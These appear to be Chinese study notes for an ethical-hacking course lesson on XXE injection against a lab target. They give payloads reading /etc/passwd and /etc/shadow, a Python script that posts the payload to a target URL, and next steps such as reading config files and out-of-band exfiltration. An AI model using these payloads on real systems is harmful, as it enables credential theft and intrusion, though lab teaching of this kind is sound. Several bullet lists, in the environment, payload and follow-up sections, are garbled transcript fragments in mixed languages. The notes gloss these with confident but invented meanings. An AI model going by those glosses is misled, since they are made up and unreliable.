# 🛡️ Udemy - Ethical Hacking：50-Day Hacker Challenge：50 Real Attacks:p38 13:XXE [Live Target]



## 课程概述

在本节课中我们将要学习XXE漏洞的核心概念与实战演练。XXE是XML外部实体注入的缩写，通俗地说就是当程序处理XML数据时，如果不小心信任了外部实体，攻击者就可以让服务器去读取本地敏感文件，比如/etc/passwd或者/etc/shadow。本节课会用非常直白的语言，带你从零开始理解这个漏洞是怎么产生的，以及如何在靶场上完成一次真实的攻击演示。所有步骤都会拆解成小块，确保初学者可以跟着操作，不会被专业术语困住。

## XXE漏洞的基本原理



上一节我们介绍了Web漏洞的通用思路，本节中我们来看看XXE具体是怎么回事。XXE漏洞发生在XML解析器解析包含外部实体声明的XML文档时。攻击者构造恶意XML，让服务器去请求本地文件或内网地址，从而泄露数据。这个过程不需要复杂的编程，只需要一个写错配置的XML解析器即可触发。

核心公式如下：

XXE漏洞 = XML解析器 + 外部实体声明 + 敏感文件路径



一个正常的XML文档长这样：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<user>
  <name>张三</name>
  <email>zhangsan@example.com</email>
</user>
```



如果攻击者插入外部实体，就变成了下面这样：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>
```



这里的`file:///etc/passwd`就是告诉服务器去读取本地密码文件。如果解析器没有做任何限制，服务器就会把`/etc/passwd`的内容直接返回给攻击者，从而完成一次信息泄露。



## 靶场环境准备



在开始实战之前，我们需要先确认靶场的基本环境。以下是常见需要检查的系统路径与服务：



- `./lash ETC password shadow`：尝试读取`/etc/passwd`和`/etc/shadow`文件，确认系统用户信息。
- `A ETC host Maria`：检查`/etc/hosts`文件以及MariaDB数据库配置，看看是否存在可利用的主机映射。
- `X Ab Dna Dpatina，Xsy assembly and the external entityina`：关注XML外部实体的组装方式，确认解析器是否支持`SYSTEM`或`PUBLIC`实体。

以下是环境检查的简单步骤：

1. 启动靶场虚拟机，确认网络可以正常访问目标IP。
2. 使用浏览器访问目标页面，找到接受XML输入的接口。
3. 在浏览器开发者工具中查看请求格式，确认是否使用了XML解析。



完成这些准备工作后，我们就可以进入payload构造阶段了。



## 构造攻击载荷

有了环境之后，下一步就是写攻击载荷。以下是常见的载荷关键词与对应含义：

- `shipping methods description keywords`：物流方式描述关键词，常用于在电商类XML接口中注入恶意实体。
- `extension pages equal second stage`：扩展页面等于第二阶段，意味着在第一个页面提交后，服务器可能会进行二次解析，攻击者可以利用这一点深入利用。
- `ダとリ`：日语片段，在实际操作中可忽略，仅作为原文标记保留。

下面是一个可以直接使用的XML载荷示例：


```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/shadow" >
]>
<foo>&xxe;</foo>
```

发送这个载荷后，如果服务器返回了`/etc/shadow`的内容，说明XXE漏洞利用成功。这时候攻击者已经拿到了系统重要的账户信息，后续可以进一步提权。



## 使用Python脚本自动化利用

手工发送XML比较慢，攻击者通常会用脚本来批量测试。以下是原文中提到的脚本思路：

`Python script exploit you import another target URL in the file I the package is calling`：Python脚本漏洞利用，在文件中导入另一个目标URL，包正在调用。

下面是一个简化版的Python利用脚本示例，供初学者理解调用方式：

```python
import requests

target_url = "http://target.example.com/xml"
xxe_payload = '''<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY test SYSTEM "file:///etc/passwd">
]>
<root>&test;</root>'''

headers = {"Content-Type": "application/xml"}
response = requests.post(target_url, data=xxe_payload, headers=headers)
print(response.text)
```



脚本的作用很简单：把构造好的XML字符串发给目标服务器，然后打印服务器返回的内容。如果返回里出现了root用户信息，就说明漏洞存在。初学者可以把`target_url`替换成自己的靶场地址进行测试。

## 读取敏感文件与后续利用

拿到XXE执行权限后，我们可以尝试读取更多敏感文件。以下是原文中提到的利用方向：

- `How they3。Excellent， so for partna。In the URL evidence the in the phase on chip so either the emal emission sensitive files`：在URL证据阶段，要么通过邮件发送，要么读取敏感文件。
- `そ反港来 보 그런？something。Doomain equal create for bottom be`：域名创建与底层服务探测，可用于进一步的SSRF攻击。
- `Around the 2014 for 11 years community in the domain and in the ground`：与旧域名社区相关的信息收集，可用于定位历史漏洞。
- `一 that been`：表示某项操作已经完成，可作为利用成功的标记。
- `비무细반 then。I called on knownan。Director Hhen Li of being Shi Cooper`：人名与目录标记，在实际渗透中可用于确认目标组织结构。



以下是读取敏感文件的操作清单：



1. 修改脚本中的`file:///etc/passwd`为`file:///etc/hosts`，读取主机映射。
2. 修改为`file:///var/www/html/config.php`，尝试读取网站配置文件。
3. 如果支持外部DTD，尝试发送数据到攻击者控制的服务器，实现带外数据窃取。



完成这些操作后，基本的XXE攻击流程就走通了。



## 本节总结

本节课中我们一起学习了XXE漏洞的定义、原理公式、环境准备、载荷构造、Python脚本利用以及敏感文件读取等完整流程。你已经掌握了如何识别XML输入点，如何构造外部实体，以及如何用简单脚本完成自动化攻击。希望这些内容能帮助你在接下来的实战挑战中顺利完成任务。

